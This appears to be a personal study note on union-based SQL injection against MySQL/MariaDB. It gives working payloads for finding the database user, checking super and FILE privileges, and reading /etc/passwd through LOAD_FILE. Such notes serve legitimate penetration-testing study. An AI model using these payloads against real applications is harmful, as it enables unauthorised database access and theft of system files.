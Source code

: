 ```yaml
---
title: b-Reading Files
draft: false
tags:
  - load_file
---
```

## Privileges

We first need to find out about our user privilege within the database.

### DB User

Use following queries to find out about the current DB user:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

injection payload should look like this:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

Or

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

## User Privilege

Now that we know our user, we can start looking for what privilege we have.

To test for super admin privilege:

```sql
SELECT super_priv FROM mysql.user
```

Injection payload should look like this:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

To see privilege for  certain user:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

We can also dump other privilege we have directly from the schema as such:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```


Again, we can search for specific user as such:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

If we see `FILE` privilege listed for our user, we can proceed with attempting to read files.

## LOAD_FILE

`LOAD_FILE()` function can be used in MariaDB/MySQL to read data from files.

It works as such:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

We can use it in `UNION` injection like below:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

